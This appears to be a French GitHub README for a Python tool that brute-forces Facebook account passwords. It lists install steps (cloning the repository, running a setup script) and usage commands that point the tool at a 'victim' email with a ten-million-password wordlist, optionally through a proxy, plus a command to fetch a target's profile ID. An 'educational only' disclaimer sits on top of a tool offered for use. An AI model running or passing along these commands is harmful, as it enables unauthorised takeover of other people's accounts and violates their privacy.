 Piratage Facebook
![PicsArt_22-06-08_16-34-50-148](file_00000000232c61fd91fb311b1688247b.png)
###### Puissante attaque par force brute sur Facebook.
***
### <p align="center">Commandes pour exécuter l'outil dans votre terminal Termux et Kali Linux
***

```bash
Remarque : Cet outil est conçu à des fins éducatives uniquement.
Veuillez ne pas endommager les appareils de qui que ce soit.
C'est pour juste testée, pas pour se venger.
 by rebelle masque 
```
## Langage utilisé pour créer cet outil :
- Python

## L'outil est compatible avec :
- Windows
- Kali Linux
- Android~Termux
- macOS
- Tous les systèmes d'exploitation utilisent Python (2.x, 3.x) avec les modules requis.

###### Installation
```bash
apt update && apt upgrade -y
```
```bash
apt install git -y
```
```bash
git clone https://github.com/RebelleMasque/Facebook_force-bruit-spy.git
```
```bash
cd Facebook_force-bruit-spy
```
```bash
bash setup
```
```bash
python facebook_hack.py
```

## Utilisation :
- **Vous pouvez utiliser Victim Adresse e-mail ou identifiant de profil Facebook** :

- **Force brute sur un compte Facebook sans proxy** :

* **Commande** : python facebook_hack.py -t victim@gmail.com -w 10MPASS.txt

- **Force brute sur un compte Facebook avec proxy** :

* **Commande** : python facebook_hack.py -t victim@gmail.com -w 10MPASS.txt -p 144.217.101.245:3129

- **Obtenir l'identifiant de profil Facebook cible** :

* **Commande** : python facebook_hack.py -g https://www.facebook.com/exemple
